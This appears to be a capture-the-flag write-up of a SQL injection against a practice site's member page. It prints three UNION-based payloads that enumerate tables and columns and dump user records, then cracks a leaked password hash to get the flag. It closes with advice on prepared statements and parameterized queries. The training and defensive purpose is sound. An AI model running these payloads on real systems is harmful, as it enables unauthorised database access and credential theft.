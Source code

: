 # SQL injection

## Found on

```
<ip>/?page=member
```

## How to exploit

Typing anything other than an id (integer) returns an SQL error. This gives an indication that the input is not sterilized before running a query.

This is very dangerous as attackers notice these things and mark inputs and fields like these as targets.  

1. To get table names:
```
3 union select null, concat (table_name) from information_schema.tables where table_schema = database ()
```

2. To get user table column names:
```
3 union select null, concat (column_name) from information_schema.columns where table_schema = database ()
```

3. To get all data of users:
```
3 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users
```

The last injection reveals this:
```
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

With these instructions getting the flag was easy.
1. Decript the hash -> FortyTwo
2. Encrypt the lowercase phrase with Sh256 -> fortytwo

## A brief explination of the SQL Injection

Typing any text into the input field returns this error:
```bash
Unknown column 'sminnaar' in 'where clause'
```
This gives me an idea of how the SQL is structured:
```bash
SELECT user WHERE id = sminnaar
```
In the case of the injection, the WHERE is completed by the 3 I entered and then the query is extended to include more queries.

This is then used to get information out of the database that I should not be able to access.

## How to protect against

* Use prepared statements or strerilize the input from the form.
* Using layered security minimizes the risk of vulnribilities being exposed.
* Using [Parameterized Queries in SQL](https://use-the-index-luke.com/sql/where-clause/bind-parameters)

## Resources:
* https://owasp.org/www-community/attacks/SQL_Injection
* https://portswigger.net/web-security/sql-injection/union-attacks
* https://dev.mysql.com/doc/refman/8.0/en/information-schema.html
* https://www.softwaretestinghelp.com/sql-injection-how-to-test-application-for-sql-injection-attacks/